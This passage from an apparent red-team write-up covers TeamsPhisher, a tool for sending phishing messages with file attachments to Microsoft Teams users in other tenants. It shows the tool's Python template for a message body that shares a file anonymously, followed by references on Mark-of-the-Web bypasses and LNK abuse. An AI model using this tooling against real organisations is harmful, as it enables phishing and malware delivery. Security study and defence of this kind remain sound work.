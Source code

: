 It is also possible to customize the header of the request that will be sent.

*Code*
```python
body = """{

"content": "%s",

"messagetype": "RichText/Html",

"contenttype": "text",

"amsreferences": [],

"clientmessageid": "3529890327684204137",

"imdisplayname": "Federico Lorenzon",

"properties": {

"files": "[{\\"@type\\":\\"http://schema.skype.com/File\\",\\"version\\":2,\\"id\\":\\"%s\\",\\"baseUrl\\":\\"%s/personal/%s/\\",\\"type\\":\\"%s\\",\\"title\\":\\"%s\\",\\"state\\":\\"active\\",\\"objectUrl\\":\\"%s/personal/%s/Documents/Microsoft%%20Teams%%20Chat%%20Files/%s\\",\\"providerData\\":\\"\\",\\"itemid\\":\\"%s\\",\\"fileName\\":\\"%s\\",\\"fileType\\":\\"%s\\",\\"fileInfo\\":{\\"itemId\\":null,\\"fileUrl\\":\\"%s/personal/%s/Documents/Microsoft%%20Teams%%20Chat%%20Files/%s\\",\\"siteUrl\\":\\"https://teamphisher-my.sharepoint.com/personal/phisher_teamphisher_onmicrosoft_com/\\",\\"serverRelativeUrl\\":\\"\\",\\"shareUrl\\":\\"%s\\",\\"shareId\\":\\"%s\\"},\\"botFileProperties\\":{},\\"permissionScope\\":\\"anonymous\\",\\"filePreview\\":{},\\"fileChicletState\\":{\\"serviceName\\":\\"p2p\\",\\"state\\":\\"active\\"}}]",

"importance": "",

"subject": ""

}

}""" % (assembledMessage, uploadInfo.get('sharepointIds').get('listItemUniqueId'), senderSharepointURL, senderDrive, attachment.split(".")[-1], os.path.basename(attachment), senderSharepointURL, senderDrive, os.path.basename(attachment), uploadInfo.get('sharepointIds').get('listItemUniqueId'), os.path.basename(attachment), attachment.split(".")[-1], senderSharepointURL, senderDrive, os.path.basename(attachment), inviteInfo.get('d').get('ShareLink').get('sharingLinkInfo').get('Url'), inviteInfo.get('d').get('ShareLink').get('sharingLinkInfo').get('ShareId'))
```

more features and customization are available on the [github page](https://github.com/Octoberfest7/TeamsPhisher) of the tool.

**ERRORS ON THE WAY**

1. [# Error sending message + attachment to user: 500](https://github.com/Octoberfest7/TeamsPhisher/issues/3)

The error was related with the formatting of the message and the use of special characters


[^1]: [Teams Official disclose Research](https://labs.jumpsec.com/advisory-idor-in-microsoft-teams-allows-for-external-tenants-to-introduce-malware/)
[^2]: [Manual bugs/exploitations](https://posts.inthecyber.com/leveraging-microsoft-teams-for-initial-access-42beb07f12c4)
[^3]: [Basic tool](https://github.com/sse-secure-systems/TeamsEnum)
[^4]: [audit logs in microsoft teams](https://learn.microsoft.com/en-us/microsoft-365/compliance/audit-teams-audit-log-events?view=o365-worldwide)
[^5]: [Guide3](https://badoption.eu/blog/2023/06/30/teams3.html)
[^6]: [Guide2](https://badoption.eu/blog/2023/06/22/teams2.html)
[^7]: [queries article](https://www.linkedin.com/pulse/defending-against-teamsphisher-attack-microsoft-365-defender-lim?utm_source=share&utm_medium=member_ios&utm_campaign=share_via)
[^8]: [lolbas](https://lolbas-project.github.io/lolbas/Binaries/Syncappvpublishingserver/)
[^9]: [MOTW bypass](https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/)
[^10]: [MOTW bypass on zip](https://breakdev.org/zip-motw-bug-analysis/)
[^11]: [abusing lnk](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)
[^12]: [Useful Red Team Info ITA](https://roccosicilia.com/)